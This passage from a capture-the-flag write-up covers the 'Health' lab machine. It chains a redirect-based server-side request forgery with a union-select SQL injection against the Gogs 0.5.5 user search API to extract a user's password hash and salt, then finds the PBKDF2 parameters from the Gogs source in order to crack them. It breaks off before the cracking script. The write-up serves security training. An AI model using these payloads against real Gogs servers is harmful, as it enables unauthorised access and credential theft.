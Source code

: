 The extracted hash is very long and I don't recognize it, and using `hash-identifier` we get the response **Not Found**.
Reading a bit about Gogs password hash I find this [blog post](https://blog.stigok.com/2017/03/06/lost-password-to-gogs-git-server-docker-instance.html) where a user locked himself out of Gogs trying to create a new hash. Here we find that a **salt** is needed and we should be able to extract it the same way we did with passwd. Unfortunately this blog post doesn't succeed in replicating the hash, so we need to dig deeper for that.

```bash
➜  health python3 redirect.py 80 "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/null,null,(select/**/passwd/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--/**/-"
10.129.9.180 - - [24/Aug/2022 08:46:01] "GET / HTTP/1.0" 302 -


## Response
Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"http:\/\/10.10.14.20\/","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"sO3XIbeW14\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.5","Date":"Wed, 24 Aug 2022 06:45:01 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/null,null,(select\/**\/salt\/**\/from\/**\/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--\/**\/-","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"173"}}
```

So now we have all three needed ingredients needed to build and crack the password and hopefully gain access to the system:
1. Username: `susanne`
2. Hash: `66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37`
3. Salt: `sO3XIbeW14`


### Step 3
Downloading the [source code](https://github.com/gogs/gogs/releases/tag/v0.5.5) for Gogs 0.5.5 and looking for the password encoding function we find this on line 117:
```go
// gogs/models/user.go
newPasswd := base.PBKDF2([]byte(u.Passwd), []byte(u.Salt), 10000, 50, sha256.New)
```

As I see it we can solve this two different ways;
1. The programmatically simple solution where we make a script encode a string with the same algorithm and salt, and compare the end result to the found hash.
2. Or make a script that reformats hash + salt to hashcat format. 

Since I'm not a programmer, I chose to go with option one, knowing this will take far longer to crack as I'll never build anything as efficient as hashcat. 
Googling around I found [this post](https://stackoverflow.com/questions/72661995/python-hashing-password-with-pbkdf2) and used it as foundation for my script. I made some tweaks to import strings from list and fired it up:
